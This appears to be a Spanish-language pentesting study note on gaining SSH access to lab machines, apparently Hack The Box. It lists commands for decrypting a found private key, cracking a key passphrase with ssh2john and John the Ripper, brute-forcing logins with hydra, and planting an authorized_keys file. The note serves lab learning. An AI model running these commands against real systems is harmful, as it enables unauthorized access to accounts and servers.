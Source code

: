 
## DESCRIPTION



#### Mas información
* 


## EXPLOITATION

### OPTION 1: SI TENEMOS LA PRIVATE KEY

```
#SUBOPCIÓN 1: Pasar de la clave privada a una clave desprotegida y acceder al ssh con esta
openssl rsa -in hype_key_encrypted -out hype_key_decrypted → ssh -i ~/hype_key_decrypted hype@10.10.10.79
                  
# SUBOPCIÓN2: Accedes directamente con la clave privada (Y INTRODUCES LA CONTRASEÑA): ssh -i ~/hype_key_encripted hype@10.10.10.79
```

**!!NOTA IMPORTANTE!!** 
* SI DA ERROR DE PERMISOS HAY QUE ASIGNARLE EL 600
* No buscar solo la private key id_rsa, existen otros formanos en función de la encriptación que utilice. Si estas en un [[LFI]] Puedes buscar authorized_keys y ver el mecanismo de encriptado:
![[Pasted image 20230425115630.png]]
* Ejemplos de claves privadas:
	* id_rsa
	* id_ecdsa

### OPTION 2: FUERZA BRUTA SOBRE LA KEY
Herramienta: SSH2JOHN

Si tenemos una clave id_rsa pero cuando hacemos login nos pide una passphrase → usamos ssh2john y intentamos crackear la pass

```
python ssh2john.py id_rsa > ssh.pass.txt
john -wordlist=/usr/share/wordlists/rockyou.txt ssh.pass.txt  
ssh 10.10.10.17 -i id_rsa  
```

IMPORTANTE SI HAY QUE CREAR REGLAS UTILIZAR [[RULES TO MODIFY DICTIONARIES]]

### OPTION 3: FUERZA BRUTA SOBRE LOGIN

```
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```


Crear reglas sobre una contraseña:

![[Pasted image 20230516131823.png]]

### OPTION 4:CREACIÓN DE CLAVES

Si podemos acceder al directorio de un usuario por ejemplo con RSYN en los linux, entonces podemos subir la clave publica y llamarla `authorized_keys` para acceder sin contraseña.

Creación de las claves y conexión:

```

ssh -i id_rsa fox@192.168.243.126 
```




## MACHINES

* Hack The Box: Postman

